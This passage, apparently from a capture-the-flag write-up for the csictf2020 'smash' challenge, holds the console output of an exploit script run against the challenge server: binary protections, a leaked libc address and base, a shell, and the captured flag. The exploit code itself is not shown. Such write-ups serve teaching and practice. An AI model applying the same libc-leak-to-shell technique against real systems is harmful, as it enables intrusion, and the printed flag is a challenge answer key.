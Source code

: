 Remote output (task server):

```bash
# ./exploit3a.py
[*] '/pwd/datajerk/csictf2020/smash/hello'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chall.csivit.com on port 30046: Done
[*] '/pwd/datajerk/csictf2020/smash/libc-database/db/libc6-i386_2.23-0ubuntu11.2_amd64.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] puts: 0xf7d8a150
[*] baselibc: 0xf7d2b000
[*] Switching to interactive mode

$ cat flag.txt
csictf{5up32_m4210_5m45h_8202}
```
